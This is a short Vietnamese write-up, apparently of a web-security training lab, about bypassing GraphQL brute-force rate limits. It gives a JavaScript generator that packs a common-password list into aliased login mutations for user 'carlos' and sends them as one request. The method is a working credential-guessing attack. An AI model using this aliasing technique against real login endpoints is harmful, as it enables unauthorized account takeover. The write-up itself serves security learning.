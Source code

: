 ## Bypassing GraphQL brute force protections

1. Lấy introspection bằng uri với InQL.
2. Có một mutation thực hiện login:
![image](https://github.com/user-attachments/assets/6b4e1698-cb8e-453e-86b3-ea7d251477cb)
![image](https://github.com/user-attachments/assets/eb53a14b-c1b7-4cc8-ae49-0a402a31443b)

3. Bài này được đề xuất theo hướng bruteforce nhưng có rate limit trong request nên không thể bruteforce từng request được mà phải dùng nhiều Aliases trong một request.
4. Gen payload bằng đoạn code js sau:
```
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));
```

5.  Gọi mutation lồng ngoài.
```
mutation {
    bruteforce0: login(input: { password: "123456", username: "carlos" }) {
        token
        success
    }
  ...
}
```
6. Bruteforce thành công.
![image](https://github.com/user-attachments/assets/c38124ac-4e55-4b2f-a305-80edc087ac5e)
